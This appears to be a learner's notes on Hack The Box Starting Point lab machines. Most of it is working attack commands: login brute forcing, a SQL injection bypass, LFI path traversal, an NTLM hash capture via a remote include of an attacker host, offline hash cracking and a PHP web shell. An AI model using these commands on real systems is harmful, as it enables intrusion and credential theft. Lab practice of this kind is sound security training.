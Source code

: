 # HTB Notes

## Starting Point Tier 0

Nmap basic list
`nmap -v1 -Pn 123.456.789.0`

SMB List Shares
`smbclient --list 10.129.49.171`

SMB List Folders
`smbmap -u root -p "" -H 10.129.49.171 -r`

SMB Folder Content
`smbmap -u root -p "" -H 10.129.49.171 -R WorkShares`

SMB Download files
`smbmap -u root -p "" -H 10.129.49.171 --download 'WorkShares\James.P\flag.txt'`

### Explosion

Unix RDP Connection
`xfreerdp /v:10.1.1.1 /u:administrator`

### Preignition

GoBuster find files / directories on Web Sever ending in PHP using Wordlist
`gobuster dir --url 10.129.38.239 --wordlist /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php`

Hydra Login Form attack using HTTP Form Post
`hydra -l admin -P Passwords/2020-200_most_used_passwords.txt 10.129.116.45 http-post-form "/admin.php:username=^USER^&password=^PASS^:Wrong" -v`

### Mongod

Nmap scan all ports fast (does not work in nmapgui)
`nmap -p- --min-rate=1000 -sV {target_IP}`

MongoDB Shell Connect
`mongosh {target_IP}`

Mongo List Databases
`show databases`

Mongo Show Collection Content
`db.{collection_name}.find().pretty()`

### Synced

Rsync list shares
`rsync --list-only {target_IP}::`

Rsync copy file to local
`rsync 10.129.228.37::public/flag.txt ./flag.txt`

## Starting Point Tier 1

### Appointment

MySQL Injection Example Server query
`$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";`

Injection Attack
$username = admin
$password = ' OR 1=1 #
`$sql="SELECT * FROM users WHERE username='admin' AND password='' OR 1=1 #'";`

### Sequel
Mysql login broken / unable to login

### Crocodile
FTP Login
`ftp anonymous@{target_IP}`

FTP list / download
`ls` / `get`

### Responder
Web Server IP Redirection to URL, but URL inaccessible
echo "{target_IP} {target_URL}" >> /etc/hosts

Local File Inclusion
`http://unika.htb/index.php?page=FOOBAR`
No such file or directory in C:\xampp\htdocs\index.php
Access check at `http://unika.htb/index.php?page=../../../windows/system32/drivers/etc/hosts` successful
Or `http://unika.htb/index.php?page=../../../documents and settings/administrator/desktop/desktop.ini`

Using Responder to try and have webserver connect to us, proving NTLM Hash
`responder -I {network_interface}`
http://unika.htb/index.php?page=http://10.10.14.74
Answer: Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in C:\xampp\htdocs\index.php on line 11
Unable to include `http://` URLs

Run Gobuster with LFI List in Fuzz mode, trying to see which directories / files we can access
gobuster fuzz -w /usr/share/wordlists/seclists/Fuzzing/LFI/file_inclusion_windows.txt --url "http://unika.htb/index.php?page=" --exclude-length 0-700

Back to Responder:
Try to include File URL:
http://unika.htb/index.php?page=//10.10.14.74/file
Responder successfully captures Hash > hash.txt

Offline Crack NTLM hash using John the Ripper
John The Ripper available Hash Formats
`john --list=formats`
`john -w=/usr/share/wordlists/rockyou.txt --format=netntlmv2 ~/hash.txt`

With found Password and WinRM running, connect to target and grab flag
`evil-winrm -i 10.129.95.234 -u administrator -p badminton`

### Three
Subdomain Enumeration - DOES NOT WORK
Domain was added to /etc/hosts, so any DNS queries to that domain won't resolve
`gobuster dns --domain thetoppers.htb --wordlist /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt --threads 128`
instead use GoBuster vhost mode
`gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb/ --threads 128 --append-domain`

Use AWS CLI to list S3 files using found S3 endpoint
`aws --endpoint http://s3.thetoppers.htb s3 ls`

Create PHP Reverse Shell and upload it to web server via S3
`<?php system($_GET["cmd"]); ?>`
More advanced Reverse Shell at
https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get_v2.php
Or Interactive Reverse Shell at
https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell-one-liner